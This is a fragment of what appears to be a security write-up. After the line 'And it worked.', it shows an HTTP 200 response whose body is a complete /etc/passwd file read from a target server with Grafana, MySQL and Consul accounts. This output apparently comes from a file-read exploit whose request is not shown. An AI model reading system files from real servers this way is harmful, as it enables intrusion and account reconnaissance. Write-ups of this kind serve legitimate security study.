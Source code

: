 And it worked.

```http
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-Length: 1983
Content-Type: text/plain; charset=utf-8
Expires: -1
Last-Modified: Mon, 14 Mar 2022 02:56:37 GMT
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-Xss-Protection: 1; mode=block
Date: Wed, 09 Nov 2022 00:20:01 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
